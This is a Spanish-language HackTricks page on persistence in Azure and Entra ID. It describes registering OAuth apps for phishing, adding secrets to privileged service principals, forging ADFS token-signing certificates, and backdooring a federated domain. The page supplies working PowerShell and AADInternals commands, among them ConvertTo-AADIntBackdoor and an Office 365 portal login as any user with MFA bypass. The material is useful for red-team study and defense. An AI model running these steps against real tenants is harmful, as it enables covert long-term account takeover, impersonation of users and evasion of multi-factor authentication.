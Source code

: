 # Az - Persistencia

{{#include ../../../banners/hacktricks-training.md}}

### Aplicación OAuth

Por defecto, cualquier usuario puede registrar una aplicación en Entra ID. Así que puedes registrar una aplicación (solo para el inquilino objetivo) que necesite permisos de alto impacto con consentimiento de administrador (y aprobarlo si eres el administrador) - como enviar correos en nombre de un usuario, gestión de roles, etc. Esto nos permitirá **ejecutar ataques de phishing** que serían muy **fructíferos** en caso de éxito.

Además, también podrías aceptar esa aplicación con tu usuario como una forma de mantener el acceso sobre ella.

### Aplicaciones y Principales de Servicio

Con privilegios de Administrador de Aplicaciones, GA o un rol personalizado con permisos microsoft.directory/applications/credentials/update, podemos agregar credenciales (secreto o certificado) a una aplicación existente.

Es posible **dirigir una aplicación con altos permisos** o **agregar una nueva aplicación** con altos permisos.

Un rol interesante para agregar a la aplicación sería el **rol de administrador de autenticación privilegiada**, ya que permite **restablecer la contraseña** de los Administradores Globales.

Esta técnica también permite **eludir MFA**.
```bash
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
- Para la autenticación basada en certificados
```bash
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
### Federación - Certificado de Firma de Token

Con **privilegios de DA** en AD local, es posible crear e importar **nuevos certificados de firma de token** y **certificados de descifrado de token** que tienen una validez muy larga. Esto nos permitirá **iniciar sesión como cualquier usuario** cuyo ImuutableID conozcamos.

**Ejecuta** el siguiente comando como **DA en el/los servidor(es) ADFS** para crear nuevos certificados (contraseña predeterminada 'AADInternals'), añadirlos a ADFS, desactivar la rotación automática y reiniciar el servicio:
```bash
New-AADIntADFSSelfSignedCertificates
```
Luego, actualiza la información del certificado con Azure AD:
```bash
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federación - Dominio de Confianza

Con privilegios de GA en un inquilino, es posible **agregar un nuevo dominio** (debe ser verificado), configurar su tipo de autenticación como Federado y configurar el dominio para **confiar en un certificado específico** (any.sts en el comando a continuación) y emisor:
```bash
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Referencias

- [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{{#include ../../../banners/hacktricks-training.md}}
